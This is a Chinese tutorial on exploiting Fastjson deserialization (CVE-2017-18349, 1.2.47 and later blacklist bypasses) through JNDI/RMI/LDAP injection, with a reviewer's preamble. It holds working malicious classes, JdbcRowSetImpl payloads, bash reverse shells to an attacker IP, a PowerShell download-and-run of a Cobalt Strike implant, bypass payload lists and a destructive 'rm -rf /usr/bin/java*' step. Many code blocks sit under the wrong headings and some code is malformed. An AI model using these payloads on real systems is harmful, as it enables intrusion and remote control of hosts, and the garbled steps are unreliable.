## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Vulhub1.2.24/47, Java8u102 Linux and8u161 Windows;62/66 appendix lacks dependencies/precise scope

代码与实验材料：Spring controller, explicit RMI/LDAP requests and marker/shell examples; command blocks substantially shifted into next headings; no current fix section

来源证据范围：Original WeChat, official IDE/Maven/tool links; bibliography mostly plain titles without URLs

- **操作与副作用边界（1）**：Destructive unverified system-JDK replacement instructions unsuitable without isolation/rollback；依据：rm -rf /usr/bin/java* and third-party HTTP JDK tarball。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（2）**：Many shifted code blocks:66 EXP is Maven build command,47 listener is XBean payload,compile section contains LDAP command; Content-Length0 with body。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（3）**：Community edition vs30-day trial mismatch, malformed User.toString, missing first HTTP server step, incorrect metadata。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 框架安全之 Fastjson 渗透

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4T52S_yzIo4uYSKkLhtudQ)

> 本篇文章是 Fastjson 框架漏洞复现，记录了近几年来爆出的 Fastjson 框架漏洞，主要分为四个部分：Fastjson 简介、Fastjson 环境搭建、Fastjson 漏洞复现、Fastjson 工具介绍。

本篇文章由浅入深地介绍了 Fastjson 的一系列反序列化漏洞，基于 RMI 或 LDAP 方式反序列化漏洞利用对 Fastjson 进行 RCE。在学习 Fastjson 过程中阅读了几十篇中英文 Fastjson 相关技术文章，最终按照作者我的思路进行总结，相关参考文章也在文末列出。此外，文中可能会出现部分错误，望读者指出，谢谢。接着，开始我们的 Fastjson 框架渗透学习！！

一、Fastjson 简介
-------------

`Fastjson`是`Java`语言编写的高性能开源`JSON`解析库，由阿里巴巴开发，用于将`Java`对象转化为`JSON`格式字符串，也可以将`JSON`格式字符串转化为等价的`Java`对象，`Fastjson`可以处理任意`Java`对象，包括没有源代码的已存在对象。具有以下几个特点：

> 速度快
> 
> 广泛使用
> 
> 测试完备
> 
> 使用简单
> 
> 功能完备

### JNDI

`JNDI (Java Naming and Directory Interface)`是一组**应用程序接口**，提供了**查找和访问**命名和目录服务的通用、统一的接口，用于定位网络、用户、对象和服务等资源，是`J2EE`规范中是重要的规范之一。（可以理解为`JNDI`在`J2EE`中是一台交换机，将组件、资源、服务取了名字，再通过名字来查找）

`JNDI`底层支持`RMI`远程对象，`JNDI`接口可以访问和调用`RMI`注册过的服务。

`JNDI`根据名字动态加载数据，支持的服务有`DNS、LDAP、CORBA、RMI`

参考：JNDI 学习总结（一）JNDI 到底是什么

### RMI

`RMI (Remote Method Invocation)`是专为 Java 环境设计的**远程方法调用机制**，远程服务器提供`API`，客户端根据`API`提供相应参数即可调用远程方法。由此可见，使用`RMI`时会涉及到参数传递和结果返回，参数为对象时，要求对象可以被序列化。

### LDAP

`LDAP(Lightweight Directory Access Protocol)`是轻量级目录访问协议，用于**访问目录服务**，基于 X.500 目录访问协议

参考：LDAP 服务器的概念和原理简单介绍

### JNDI 注入

在`JNDI`服务中，`RMI`服务端除了直接绑定远程对象，还可以通过`References`类绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定`Reference`后，服务端先利用`Referenceable.getReference()`方法获取绑定对象的引用，并且在目录中保存。当客户端使用`lookup()`方法查找该远程对象时，会返回`ReferenceWrapper`类的代理文件，接着调用`getReference()`获取`Reference`类，获取到相应的`object factory`，最终通过`factory`类将`reference`转换为具体的对象实例。





从`ReferenceWrapper`源码中也可以发现该类继承自`UnicastRmoteObject`，实现对`Reference`进行包裹，使得`Reference`类能够通过`RMI`服务进行远程访问



上面介绍了整个加载过程，则攻击利用流程如下：

> 1. 目标代码中调用了 InitialContext.lookup(URI)，且 URI 为用户可控  
> 2. 攻击者控制 URI 参数为恶意的 RMI 服务地址，如：rmi://hacker_rmi_server//name  
> 3. 攻击者 RMI 服务器向目标返回一个 Reference 对象，Reference 对象中指定某个精心构造的 Factory 类  
> 4. 目标在进行 lookup() 操作时，会动态加载并实例化 Factory 类，接着调用 factory.getObjectInstance() 获取外部远程对象实例  
> 5. 攻击者可以在 Factory 类文件的构造方法、静态代码块、getObjectInstance() 方法等处写入恶意代码，达到 RCE 的效果

参考：深入理解 JNDI 注入与 Java 反序列化漏洞利用 - 博客 - 腾讯安全应急响应中心

二、搭建 Fastjson
-------------

### 1、IDEA 下载

进入官网选择`Community`社区版即可

IDEA 下载地址：

https://www.jetbrains.com/idea/download/#section=windows



### 2、IDEA 安装

1）双击安装程序

安装路径等默认，下一步

2）安装选项

如图勾上，默认下一步（会出现一个小警示，直接确认跳过即可）



3）打开 x64 版本的`IDEA`，选择免费 30 天




选择`continue`



安装完成

### 3、安装 JDK1.8

默认安装，一直下一步即可



### 4、IDEA 创建新项目

启动`IDEA x64`，选中刚刚装好`JDK1.8u161`版本，点击`NEXT`，填写项目名称后即可创建成功



第一次创建项目较慢，等待片刻

### 5、导入 Fastjson 的 jar 包

下载地址：

https://mvnrepository.com/artifact/com.alibaba/fastjson

**1）选择 1.2.24 版本进行下载**



**2）创建目录**`FJ(随意命名)`



**3）复制`fastjson-1.2.24.jar`包至刚刚创建的目录下**



**4）前往目录结构选项中**



**5）在`Module`中导入模块，在`Dependencies`中点击加号，选择第一项**



**6）选则刚刚导入的 jar 包，确认即可**





### 6、创建 fastjson 简单项目

创建 java class，内容如下

```
import com.alibaba.fastjson.JSON;

public class FJdemo {

public static void main(String[] args){

User user = new User();
user.setName("小明");
user.setAge(18);

String jsonStr = JSON.toJSONString(user);

System.out.printf(jsonStr);

}
}
```



创建 User 类

```
private String name;
private Integer age;

public String getName() {
return name;
}

public void setName(String name) {
this.name = name;
}

public Integer getAge() {
return age;
}

public void setAge(Integer age) {
this.age = age;
}

@Override
public String toString() {
return "User{" +
" + name + '\'' +
", age=" + age +
'}';
}
```



点击 run，执行 FJdemo 的 main 函数



三、漏洞复现
------

> 以复现操作为主，底层原理解析见后面的文章

### 1、Fastjson1.2.24 反序列化漏洞 RCE（CVE-2017-18349）

**0x01 简介**

fastjson 在解析 json 对象时，会使用 autoType 实例化某一个具体的类，并调用 set/get 方法访问属性。漏洞出现在 Fastjson autoType 处理 json 对象时，没有对 @type 字段进行完整的安全性验证，我们可以传入危险的类并调用危险类连接远程 RMI 服务器，通过恶意类执行恶意代码，进而实现远程代码执行漏洞。

**影响版本**：Fastjson 版本小于 1.2.25

一些注意点：

> 反序列化常用的两种利用方式：基于 RMI 和基于 LDAP。RMI 指的是 JAVA 的远程方法调用，LDAP 是轻量级目录访问协议。
> 
> JAVA 版本限制：
> 
> 基于 RMI 的利用方式，JDK 版本限制于 6u132、7u131、8u121 之前，在 8u122 及之后的版本中，加入了反序列化白名单的机制，关闭了 RMI 远程加载代码
> 
> 基于 LDAP 的利用方式，JDK 版本限制于 6u211、7u201、8u191、11.0.1 之前，在 8u191 版本中，Oracle 对 LDAP 向量设置限制，发布了 CVE-2018-3149，关闭 JNDI 远程类加载

**0x02 靶场环境**

使用`vulhub`靶场进行复现，搭建命令如下

```
cd vulhub/fastjson/1.2.24-rce
sudo docker-compose up -d
```



查看靶场容器信息

```
sudo docker ps
```



进入容器内查看 java 版本

```
sudo docker exec -it 9599ad4b7cec bash
```



访问靶场网址



成功搭建完成~

**0x03 复现过程**

分析：靶场环境为 Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，可以使用`com.sun.rowset.JdbcRowSetImpl`利用链结合 JNDI 注入执行远程命令

先安装 Java8u20 版本，下面提供便捷代码，将现有的 Java 删除并安装上 Java8u20 版本（配合快照使用）

```
cd /opt
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
rm -rf /usr/bin/java*
ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
javac -version
java -version
```

**1）编译恶意类代码**

创建文件名为`evilclass.java`的文件

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"touch", "/tmp/test"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

使用`javac`编译

```
javac evilclass.java
```

**2）下载`marshalsec`工具**

marshalsec 工具用于开启 RMI 服务器

下载地址：

https://github.com/mbechler/marshalsec

```
git clone https://github.com/mbechler/marshalsec.git
```



**3）安装 maven**

```
apt-get install maven
```

**4）使用 maven 编译 marshalsec 成 jar 包**

```
mvn clean package -DskipTests
```





**5）搭建启动 RMI 服务**

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.112.146/#evilclass" 9999
```



**6）BurpSuite 抓包改包**

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 0

{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://192.168.112.146:9999/evilclass",
"autoCommit":true
}
}
```



已经发送了 evilclass 文件



前往靶场容器内，成功执行命令创建 test 文件



**0x04 Linux 反弹 shell**

将上面的 java 代码中的执行命令改为反弹 shell 的命令，其余步骤相似

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.112.146/9001 0>&1"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

进行`javac`编译，`Burpsuite`抓包改包发包



成功监听到反弹 shell



### 2、Fastjson1.2.24 反序列化漏洞 RCE（自建 win 靶场拓展研究）

**0x01 简介**

上面复现是在 Linux 系统中，通过 Vulhub 搭建的 fastjson 靶场进行复现，本节通过自建 spring+fastjson 漏洞环境，深入研究 fastjson 反序列化漏洞，先开始搭建过程

**0x02 环境搭建 Spring+Fastjson**

**1）创建 Spring 项目**

搭建 Spring 框架





第一次部署较久

**2）导入 fastjson 包**

这次使用 dependency 的方式导入，将提供的 dependency 代码添加至`porn.xml`中，刷新载入即可



**3）创建 java 类 - 路由解析控制器**

创建`controller.Login.java`，用于解析请求的路由控制器

```
@Controller
public class Login {
@RequestMapping(value = "/fastjson", method = RequestMethod.POST)
@ResponseBody
public JSONObject test(@RequestBody String data) {
JSONObject obj = JSON.parseObject(data);
JSONObject result = new JSONObject();
result.put("code", 200);
result.put("message", "success");
result.put("data", "Hello " + obj.get("name"));
return result;
}
}
```





报错后面解决

**4）创建 model.User.java 用户类，包含一些属性用于 fastjson 与数据对应解析**

```
public class User {
public String name;
public int age;
public String id_card;

public String getName() {
return name;
}
public void setName(String name) {
this.name = name;
}
public int getAge() {
return age; }
public void setAge(int age) {
this.age = age;
}
public String getId_card() {
return id_card;
}
public void setId_card(String id_card) {
this.id_card = id_card;
}
}
```





**5）解决报错问题**

一般报错是缺少 class，点击`Import class`即可



最后添加了一系列的 class 后，解决了报错问题



**6）启动项目**

点击右上角的启动



搭建成功



测试发送 json 数据

```
curl http://192.168.112.140:8080/fastjson -H "Content-Type: application/json" --data '{"name":"xiaoming", "age":18}'
```

  

**0x03 复现过程 - 基于 LDAP 方式的反序列化漏洞利用**

win 环境下是使用 JDK8u161 搭建，由于基于 RMI 的反序列化漏洞需要 JDK 版本小于 8u121，所以这里复现使用 LDAP 方式

**1）编写恶意类代码**

```
public class evilclass {
public evilclass (){
try{
Runtime.getRuntime().exec("calc");
}catch (Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
evilclass e = new evilclass();
}
}

或者写法二: (推荐)
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"calc"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**2）javac 编译成 class**

```
javac evilclass.java
```

**3）开启 http 服务**

```
python -m SimpleHTTPServer 80
```

**4）使用 marshalsec 搭建 LDAP 服务**

这里的命令和 RMI 方式就一处不同

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```

**5）BurpSuite 改包**

```
POST /fastjson HTTP/1.1
Host: 192.168.112.140:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 133

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```



经测试，使用 RMI 方式无法执行远程命令

**0x04 上线 Cobalt Strike**

这部分虽然和上面的类似，但记录详细些，以后用得到

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"powershell", "-Command", "(new-object System.Net.WebClient).DownloadFile('http://192.168.112.146/xigua.exe','xigua.exe');start-process xigua.exe"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**1）javac 编译恶意类 class**

创建`evilclass.java`文件（名字任意，不过要和内容中的类名一致）

```
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.112.146/xigua.exe','xigua.exe');start-process xigua.exe
```



这里的 powershell 命令意思是到 192.168.112.146 主机上下载 xigua.exe 文件并以 xigua.exe 文件名存储并执行此文件，执行命令后，不出意外的话将直接上线 CS

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```

使用 javac 编译，无报错即代表成功



**2）开启 LDAP 服务和 python 的 HTTP 服务**

使用 marshalsec 工具开启 LDAP 服务（这里同开启 RMI 命令类似），开启端口号为 9999

```
python -m SimpleHTTPServer 80
python -m http.server 80    # python3的命令
```



开启 python2 简易 http 服务

```
POST /fastjson HTTP/1.1
Host: 192.168.112.140:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 133

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```



**3）启动 Cobalt Strike 及生成木马文件**

设置监听器，创建木马上线文件，命名为`xigua.exe`，并复制到`Kali Linux`上，可以直接通过上面开启的 python2 的 http 服务访问得到。



**4）BurpSuite 抓包修改**

```
cd vulhub/fastjson/1.2.47-rce
sudo docker-compose up -d
sudo docker ps
```



**5）成功上线 CS**


### 3、Fastjson1.2.47 反序列化漏洞（CNVD‐2019‐22238）

**0x01 简介**

Fastjson1.2.24 后增加了反序列化白名单，Fastjson 中 autotype 功能允许用户通过 @type 指定反序列化的类型，在 Fastjson1.2.48 版本前攻击者可以通过构造特殊的 json 字符串进行绕过该白名单，进而造成远程命令执行，该漏洞且无需开启 autotype 即可利用成功。

**0x02 环境搭建**

依旧使用 vulhub 靶场

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```



**0x03 复现操作 - 监听反弹 shell**

上一个漏洞复现中使用了`marshalsec-0.0.3-SNAPSHOT-all.jar`工具搭建 RMI/LDAP 服务，本次复现中使用另一个工具`fastjson_tool.jar`

下载地址：

https://github.com/wyzxxz/fastjson_rce_tool

**1）启动 LDAP 服务器**

使用如下命令，8888 端口为 LDAP 服务端口，后面的命令为反弹 shell 命令，直接使用该工具提示的 payload。

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 189

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true\}\}
```



**2）访问网站，burpsuite 抓包修改**

```
nc -lvp 9001
```

  

**3）监听反弹 shell**

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";
```



**0x04 原理分析**

参考：Fastjson <=1.2.47 远程代码执行漏洞分析 - 安全客，安全资讯平台 (anquanke.com)

### 4、Fastjson1.2.62 漏洞简述

利用方法：

基于黑名单绕过，payload 如下

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}

{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"\}\}
```

### 5、Fastjson1.2.66 漏洞简述

同样是基于黑名单绕过，搜集到的 EXP

```
mvn clean package -DskipTests
```

autotypesupport 属性为 true 才可使用，在 1.2.25 版本以后该属性默认为 false

四、Fastjson 渗透工具
---------------

本篇文章涉及到两个工具：`marshalsec-0.0.3-SNAPSHOT-all.jar`和`fastjson_tool.jar`在渗透利用的过程中，本质上都是开启 RMI/lDAP 服务器发送恶意代码至靶机上，但使用上有所区别，这节稍微总结下这两款工具

### 1、marshalsec.jar

工具下载地址：GitHub - mbechler/marshalsec

工具 JDK 版本：JDK8

下载好后需要 maven 编译成 jar 包才可使用，在文件目录下执行命令

```
public class evilclass {
public evilclass (){
try{
Runtime.getRuntime().exec("calc");
}catch (Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
evilclass e = new evilclass();
}
}
```

工具使用方法如下

**1）创建恶意类文件**

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"calc"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**2）javac 编译成 class 文件**

```
javac evilclass.java
```

**3）搭建伪造 RMI/LDAP 服务**

前往`marshalsec/target`目录，命令开启服务，端口设置为 9999

```
# RMI服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.112.146/#evilclass" 9999

# LDAP服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```

**4）BP 上修改 POST 包的请求**

几个注意点：

1.  一开始抓到的包是 GET 包，需要改变为 POST 包，右键变更请求方法可以快速切换为 POST 包
    
2.  `Content-Type`需要设置为`application/json`
    
3.  请求内容根据 RMI 或者 LDAP 服务做些细微变动，
    

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 0

{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://192.168.112.146:9999/evilclass",
"autoCommit":true
}
}
```

LDAP 服务修该请求内容即可

```
{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```

后记：这款工具功能还是挺强的，限于笔者我实力较菜，更多的功能参考百度或等我后续变强再来更新

### 2、fastjson_rce_tool

工具下载地址：

GitHub - wyzxxz/fastjson_rce_tool: fastjson

命令执行自动化利用工具

这款工具相较于上一个工具更加便捷、自动化，下载好后无需 maven 编译，也不用自己创建 java 恶意类代码，直接根据工具提供的 payload 进行测试攻击，上手容易，使用容易，新手推荐这个~~

简单介绍几个功能，更多功能参考工具下载地址或百度

测试环境：

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "curl 8067nw.dnslog.cn"
```

**0x01 结合 dnslog.cn 测试远程代码是否可执行**

1）生成 dnslog.cn 的子域名

```
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true\}\}
```



2）搭建 LDAP 服务器

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```



3）BP 改包

将上面提供的 payload 写入 POST 请求中

```
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true\}\}
```

  

4）到 dnslog.cn 上查看靶机是否执行了 curl 命令

可以发现靶机成功执行了 curl 命令，说明存在 RCE 漏洞



**0x02 反弹 shell 及其他**

操作方法类似，就是将命令更改为反弹 shell 的命令

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```

小结：这里的命令部分相当于 marshalsec 工具中的自己写的恶意类中的可执行命令部分，只是 fastjson_rce_tool 简化了操作，我们只要提供命令执行参数即可，适合小白~

更多的操作及命令可自行拓展或者去工具下载地址查看

五、总结
----

注意 JDK 的版本，基于不同方式的反序列化攻击有不同的限制，否则会使得攻击无效



IDEA 搭建 Fastjson 框架时有两种导入包的方式，一种是手动创建目录导入，一种是在 porn.xml 中插入代码，刷新自动导入，推荐后面一种

工具涉及到两种，一个是 marshalsec，另一个是 fastjson_rce_tool，推荐新手先使用第二个工具，上手较容易

六、参考
----

alibaba/fastjson: A fast JSON parser/generator for Java.

Maven Repository: com.alibaba » fastjson

mbechler/marshalsec (github.com)

GitHub - wyzxxz/fastjson_rce_tool

Fastjson<=1.2.47 反序列化漏洞复现

Fastjson <=1.2.47 远程命令执行


 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

  

精彩推荐

  

  

  

  

********

  

[](http://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486265&idx=1&sn=8a02ee0c67815bd4aede3515514f1048&chksm=ce1cf1a6f96b78b011faf0c5b9c8461dd78cd918f47ca871588ab87c9cbc5857fc85f32e875d&scene=21#wechat_redirect)

[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486247&idx=1&sn=84e65d14aead191568965ca1a836aa44&scene=21#wechat_redirect)

[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486234&idx=1&sn=ea27cfe569dadad4c9e8604ee324316f&scene=21#wechat_redirect)****************************

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
